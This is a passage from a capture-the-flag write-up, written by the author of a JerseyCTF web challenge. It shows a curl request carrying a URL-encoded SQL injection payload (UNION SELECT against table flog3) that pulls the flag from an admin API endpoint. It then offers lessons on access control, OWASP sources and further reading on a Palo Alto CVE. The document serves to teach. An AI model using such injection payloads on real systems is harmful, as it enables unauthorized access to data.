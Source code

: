 After getting the table names, selecting the table flog3 and selecting the name from it will give you the flag!

```sh
curl http://leaky-endpoints.aws.jerseyctf.com/api/admin/dev/user/1%20UNION%20SELECT%20group_concat(name)%20FROM%20flog3
```


## Conclusion

Many times these vulnerabilities are coding into code bases on accident. Either rushing to get something working or not thinging about the consequences. This challenge was meant to demonstrate how even if a vulnerability is behide a login, a malicious users can still get access to it and exploit it. Thats why its important to take the time to secure critical users such as Admins and Root users. Ensuring that these users are protected. Its a recurring story of system adminstrators believing something is secure only to find out that one exploit on the front-end gives an attacker admin permissions. If an attack is available an attack will exploit it. Its not uncommon for vulnerabilities to be dismissed simply because there are behide a firewall or dashboard.

In all, Making this challege was a ton of fun and I hope to make many more in the future. This was my first time making a challenge like this. So I'm thankful for the oppurunity from Jerseyctf and two glad that it was reserved so well.

## Sources

- https://youtu.be/JA4Vii3tyUk
- https://owasp.org/www-community/attacks/SQL_Injection
- https://owasp.org/Top10/A01_2021-Broken_Access_Control/


## Future reading

This was a user impersonation exploit on a palo alto fire wall that allowed users to impersonate other users and possibly get root access.
https://security.paloaltonetworks.com/CVE-2024-3388
https://medium.com/@_crac/exploitation-of-vulnerability-affecting-palo-alto-globalprotect-gateway-3ac74c223b17
